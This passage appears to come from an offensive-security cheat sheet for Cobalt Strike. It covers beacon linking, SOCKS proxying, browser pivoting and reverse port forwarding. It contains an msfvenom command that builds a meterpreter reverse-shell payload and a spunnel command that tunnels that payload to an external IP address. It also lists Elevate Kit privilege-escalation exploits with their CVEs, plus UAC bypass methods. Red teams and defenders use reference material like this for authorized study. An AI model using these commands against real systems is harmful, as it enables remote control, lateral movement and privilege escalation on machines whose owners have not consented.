 * Use `link` to connect to SMB Beacon
* Use `connect` to connect to TCP Beacon


## VPN & Pivots

:warning: Covert VPN doesn't work with W10, and requires Administrator access to deploy.

> Use socks 8080 to setup a SOCKS4a proxy server on port 8080 (or any other port you choose). This will setup a SOCKS proxy server to tunnel traffic through Beacon. Beacon's sleep time adds latency to any traffic you tunnel through it. Use sleep 0 to make Beacon check-in several times a second.

```powershell
# Start a SOCKS server on the given port on your teamserver, tunneling traffic through the specified Beacon. Set the teamserver/port configuration in /etc/proxychains.conf for easy usage.
beacon > socks [PORT]

# Proxy browser traffic through a specified Internet Explorer process.
beacon > browserpivot [pid] [x86|x64]

# Bind to the specified port on the Beacon host, and forward any incoming connections to the forwarded host and port.
beacon > rportfwd [bind port] [forward host] [forward port]

# spunnel : Spawn an agent and create a reverse port forward tunnel to its controller.    ~=  rportfwd + shspawn.
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw -o /tmp/msf.bin
beacon> spunnel x64 184.105.181.155 4444 C:\Payloads\msf.bin

# spunnel_local: Spawn an agent and create a reverse port forward, tunnelled through your Cobalt Strike client, to its controller
# then you can handle the connect back on your MSF multi handler
beacon> spunnel_local x64 127.0.0.1 4444 C:\Payloads\msf.bin
```

## Kits

* [Cobalt Strike Community Kit](https://cobalt-strike.github.io/community_kit/) - Community Kit is a central repository of extensions written by the user community to extend the capabilities of Cobalt Strike

### Elevate Kit

UAC Token Duplication : Fixed in Windows 10 Red Stone 5 (October 2018)

```powershell
beacon> runasadmin

Beacon Command Elevators
========================

    Exploit                         Description
    -------                         -----------
    ms14-058                        TrackPopupMenu Win32k NULL Pointer Dereference (CVE-2014-4113)
    ms15-051                        Windows ClientCopyImage Win32k Exploit (CVE 2015-1701)
    ms16-016                        mrxdav.sys WebDav Local Privilege Escalation (CVE 2016-0051)
    svc-exe                         Get SYSTEM via an executable run as a service
    uac-schtasks                    Bypass UAC with schtasks.exe (via SilentCleanup)
    uac-token-duplication           Bypass UAC with Token Duplication
```
